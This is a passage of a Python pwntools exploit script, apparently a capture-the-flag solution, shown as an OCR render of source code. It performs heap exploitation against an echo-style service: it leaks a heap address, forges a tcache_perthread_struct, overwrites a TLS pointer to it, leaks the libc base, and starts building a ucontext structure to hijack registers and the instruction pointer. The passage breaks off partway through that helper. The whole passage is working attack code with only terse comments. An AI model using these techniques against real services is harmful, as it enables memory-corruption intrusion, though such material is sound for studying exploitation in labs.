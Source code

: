 ```python
    sock.send(p32(sz))
    if len(content) != 0:
      payload = p32(0) + p64(1) + content
    else:
      payload = p32(0) + b'\x01\0\0\0\0\0'
    sock.sendline(payload)

send_echo(b"", 0x10)
send_echo(b"a"*8 + p64(0xd31), 0x10)
send_echo(b"b"*0xf00, 0x1000)
send_echo(b"", 0x8)
conn.recvuntil(b":[")
leak = u64(conn.recv(6) + b"\0\0")
info("heap leak: " + hex(leak))

payload = b"a"*(8*6) # counts in tcache_perthread_struct (not really relevant, just not 0)
payload += p64(leak-8*4+0x30+0xa0) # 0x20 bin (location of libc address)
payload += p64(leak+0x30) # 0x30 bin
payload += p64(leak+0x30) # 0x40 bin
payload += p64(leak+0x30) # 0x50 bin
payload += p64(leak+0x30) # 0x60 bin
payload += p64(leak+0x30) # 0x70 bin
send_echo(payload, 0x80) # new tcache perthread struct

send_echo(b"a\0a" + b"a"*(0x10000-3)+b"b"*(136920) + p64(leak-0x10), 0x30001) # overwrite tls pointer to tcache_perthread_struct

send_echo(b"", 0x10) # allocate over libc address
conn.recvuntil(b":[")
libcleak = u64(conn.recv(6) + b"\0\0")
libc.address = libcleak - 0x21a280 - 0x60
info("libc @ " + hex(libc.address))

def create_ucontext(
    src: int,
    rsp=0,
    rbx=0,
    rbp=0,
    r12=0,
    r13=0,
    r14=0,
    r15=0,
    rsi=0,
    rdi=0,
    rcx=0,
    r8=0,
    r9=0,
    rdx=0,
    rip=0xDEADBEEF,
) -> bytearray:
    b = bytearray(0x200)
    b[0xE0:0xE8] = p64(src)  # fldenv ptr
    b[0x1C0:0x1C8] = p64(0x1F80)  # ldmxcsr

    b[0xA0:0xA8] = p64(rsp)
    b[0x80:0x88] = p64(rbx)
    b[0x78:0x80] = p64(rbp)
    b[0x48:0x50] = p64(r12)
    b[0x50:0x58] = p64(r13)
    b[0x58:0x60] = p64(r14)
    b[0x60:0x68] = p64(r15)

    b[0xA8:0xB0] = p64(rip)  # ret ptr
```